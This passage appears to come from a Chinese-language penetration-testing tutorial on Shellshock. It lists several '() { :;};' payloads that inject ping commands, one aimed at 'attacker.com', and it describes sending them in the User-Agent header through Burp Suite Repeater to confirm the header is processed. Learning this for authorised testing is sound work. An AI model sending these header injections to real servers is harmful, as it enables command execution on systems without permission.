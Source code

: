 ```

() { :;}; ping -c 1 192.168.1.1

() { :;}; /bin/ping -c 1 192.168.1.1

() { :;}; bash -c "ping -c 1 192.168.1.1"

() { :;}; /bin/bash -c "ping -c 1 attacker.com"

() { :;}; /bin/sh -c "ping -c 1 192.168.1.1"

```

作为测试的一部分，你将请求发送到 Burp Suite 的 Repeater，并仅在 `User-Agent` 标头中提交 `() { :;};` 空函数，并获得与无注入相同的有效响应：

![](img/00120.jpeg)

如果尝试注入诸如 `uname`、`id` 或单个 `ping` 等命令，你会收到一个错误。这意味着标头实际上正在被处理，你只需要找到发送命令的正确方法：

![](img/00121.jpeg)
